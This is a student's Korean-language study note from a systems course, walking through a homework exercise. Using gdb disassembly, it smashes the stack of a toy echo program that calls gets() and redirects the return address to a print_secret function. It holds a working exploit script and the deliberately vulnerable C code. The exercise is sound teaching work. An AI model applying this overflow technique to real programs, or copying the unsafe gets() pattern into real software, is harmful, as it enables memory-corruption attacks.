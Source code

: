 # 23.05.19.

# Today I learned

- 컴시개

## 컴퓨터시스템개론

### Buffer Overflow Exploitation
오버플로우를 발생시켜 반환주소 변환시키기
```C
//myecho
#include <stdio.h>

void print_secret(void);

void echo(void) {
    char buf[24];
    puts("Input your message:");
    gets(buf);
    puts(buf);
}

int main(void) {
    echo();
    return 0;
}
```
```python
//exe.py
import os, sys
parent_dir = os.path.dirname(os.path.dirname(os.path.abspath(__file__)))
sys.path.append(parent_dir)
from helper import Program

def exploit():
    prog = Program("./myecho")
    print(prog.read_line()) # Read the output of the program
    prog.send_line("A"*40+"\x86\x06\x40") # Send input to the program
    print(prog.read_line())
    print(prog.read_line())

if __name__ == "__main__":
    exploit()
```
exe.py를 실행시켜 bufferoverflow를 발생시켜 secret.txt파일을 실행시켜보자.   
```
cse20201593@cspro:~/assembly/hw2/2-1$ gdb -q myecho
Reading symbols from myecho...(no debugging symbols found)...done.
(gdb) disas echo
Dump of assembler code for function echo:
   0x00000000004006f3 <+0>:	sub    $0x28,%rsp
   0x00000000004006f7 <+4>:	mov    $0x4007e8,%edi
   0x00000000004006fc <+9>:	callq  0x400510 <puts@plt>
   0x0000000000400701 <+14>:	mov    %rsp,%rdi
   0x0000000000400704 <+17>:	mov    $0x0,%eax
   0x0000000000400709 <+22>:	callq  0x400550 <gets@plt>
   0x000000000040070e <+27>:	mov    %rsp,%rdi
   0x0000000000400711 <+30>:	callq  0x400510 <puts@plt>
   0x0000000000400716 <+35>:	add    $0x28,%rsp
   0x000000000040071a <+39>:	retq   
End of assembler dump.
```
gdb를 실행시켜 echo파일을 디셈블 해본다.   
```
(gdb) x/1s 0x4007e8
0x4007e8:	"Input your message:"
```
`puts`는 $0x4007e8 레지스터에 저장되어있는 string배열을 받아 출력한다.
overflow를 발생시켜 반환주소를 변경하기위해 `gets`를 탐색한다.   
```
(gdb) b * 0x400709
Breakpoint 1 at 0x400709
(gdb) r
Starting program: /sogang/under/cse20201593/assembly/hw2/2-1/myecho 
Input your message:

Breakpoint 1, 0x0000000000400709 in echo ()
(gdb) x/8xg $rsp
0x7fffffffe410:	0x0000000000000000	0x0000000000000000
0x7fffffffe420:	0x0000000000400730	0x0000000000400590
0x7fffffffe430:	0x00007fffffffe520	0x0000000000400724
0x7fffffffe440:	0x0000000000000000	0x00007ffff7a2d840
```
`gets`함수가 실행될때 breakpoint를 걸고, 이때 rsp레지스터를 열어본다.   
`0x00000000004006f3 <+0>:	sub    $0x28,%rsp`로부터 40바이트 떨어진 곳에 0x400724인 반환주소가 위치한걸 알 수 있다.
이 주소는 어디를 가리킬까?
```
(gdb) disas main
Dump of assembler code for function main:
   0x000000000040071b <+0>:	sub    $0x8,%rsp
   0x000000000040071f <+4>:	callq  0x4006f3 <echo>
   0x0000000000400724 <+9>:	mov    $0x0,%eax
   0x0000000000400729 <+14>:	add    $0x8,%rsp
   0x000000000040072d <+18>:	retq   
End of assembler dump.
```
main함수에서 echo함수를 호출하고 저장한 returnaddress임을 알 수 있다.   
우리는 이 주소를 `print_secret()`의 주소로 바꿀 수 있다면, secret.txt를 호출할 수 있다.
`print_secret()`의 주소를 찾아보면
```
(gdb) disas print_secret
Dump of assembler code for function print_secret:
   0x0000000000400686 <+0>:	sub    $0x58,%rsp
```
로 0x400686임을 알수있다.   
`gets`는 $rsp레지스터를 인자로 받으므로, 40바이트 더미값을 집어넣고 이후 `print_secret`의 주소를 써 넣으면 echo는 실행 후 main함수로 돌아오지 않고 `print_secret`을 호출한다.    
```
def exploit():
    prog = Program("./myecho")
    print(prog.read_line()) # Read the output of the program
    prog.send_line("A"*40+"\x86\x06\x40") # Send input to the program
    print(prog.read_line())
    print(prog.read_line())
```
출력결과
```
cse20201593@cspro:~/assembly/hw2/2-1$ ./exploit-myecho.py 
Input your message:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
The secret string is {8712f8ef}
```
